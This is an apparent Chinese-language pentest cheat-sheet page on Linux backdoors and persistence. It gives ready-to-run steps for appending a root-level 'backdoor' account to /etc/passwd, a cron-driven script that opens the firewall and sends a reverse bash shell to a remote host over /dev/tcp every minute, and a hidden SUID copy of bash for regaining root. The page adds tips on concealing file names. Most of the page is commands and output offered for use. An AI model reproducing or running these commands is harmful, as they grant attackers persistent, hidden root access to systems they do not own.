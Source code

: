 
### 后门隐藏进程

**相关文章**
- [linux常见backdoor及排查技术](https://xz.aliyun.com/t/4090)
- [Linux后门整理合集](https://www.secpulse.com/archives/59674.html)
- [Linux基础软件威胁疑云：从已知到“未知”](https://mp.weixin.qq.com/s/M346b8Kz_3r-yoDnBLuV8g)

**添加 root 权限后门用户**

我们的目标就是在这个文件中追加一条,一个带有密文且 id 为 0 的账号.

密码加密使用下面的命令 `perl -e 'print crypt("password", "AA"). "\n"'`

所以我们最终想要在 passwd 文件中的条目是这个样子 `backdoor:AA6tQYSfGxd/A/A:0:0:me:/root:/bin/bash`

执行写入 `echo "backdoor:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash">>/etc/passwd`

**Crond 开机自启后门**

先创建 /etc/xxxx 脚本文件(名字自己改),利用该脚本进行反弹.以下脚本代表全自动反弹到 8.8.8.8 的 53 端口.
```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```
```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start
```

然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可.

`nc -vv -lp 53`

**SUID shell**

首先, 先切换成为 root 用户,并执行以下的命令:
```bash
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你,肯定能想出很多好的名字的.
文件前面的那一点也不是必要的,只是为了隐藏文件( 在文件名的最前面加上".",就可以在任意文件目录下进行隐藏) .
```bash
# 现在,做为一个普通用户,我们来启用这个后门:
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw)
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
# 为什么不行呢? 因为 bash2 针对 suid 有一些护卫的措施. 但这也不是不可破的:
```
```bash
/.woot -p
id
    uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
```